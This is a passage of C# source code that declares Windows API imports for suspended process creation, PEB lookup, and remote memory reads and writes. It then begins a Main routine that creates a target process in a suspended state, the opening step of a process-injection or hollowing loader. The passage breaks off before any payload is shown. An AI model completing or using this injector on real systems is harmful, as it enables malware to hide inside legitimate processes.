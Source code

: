 ```csharp
            uint dwCreationFlags,
            IntPtr lpEnvironment,
            string lpCurrentDirectory,
            [In] ref STARTUPINFO lpStartupInfo,
            out PROCESS_INFORMATION lpProcessInformation
        );

        // http://www.pinvoke.net/default.aspx/kernel32/ResumeThread.html
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);

        // http://www.pinvoke.net/default.aspx/Structures/PROCESS_BASIC_INFORMATION.html
        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr ExitStatus;
            public IntPtr PebAddress;
            public IntPtr AffinityMask;
            public IntPtr BasePriority;
            public IntPtr UniquePID;
            public IntPtr InheritedFromUniqueProcessId;
        }

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        static extern int ZwQueryInformationProcess(
            IntPtr hProcess,
            int procInformationClass,
            ref PROCESS_BASIC_INFORMATION procInformation,
            uint ProcInfoLen,
            ref uint retlen
        );

        // http://www.pinvoke.net/default.aspx/kernel32/ReadProcessMemory.html
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            [Out] byte[] lpBuffer,
            int dwSize,
            out IntPtr lpNumberOfBytesRead
        );

        // http://www.pinvoke.net/default.aspx/kernel32/WriteProcessMemory.html
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer,
            Int32 nSize,
            out IntPtr lpNumberOfBytesWritten
        );

        // https://learn.microsoft.com/en-us/windows/win32/procthread/process-creation-flags
        static uint CREATE_SUSPENDED = 0x00000004;

        // https://learn.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess
        static int ProcessBasicInformation = 0x00000000;

        static void Main(string[] args)
        {
            // 1 -- Create the target process in a suspended state

            STARTUPINFO si = new STARTUPINFO();
```
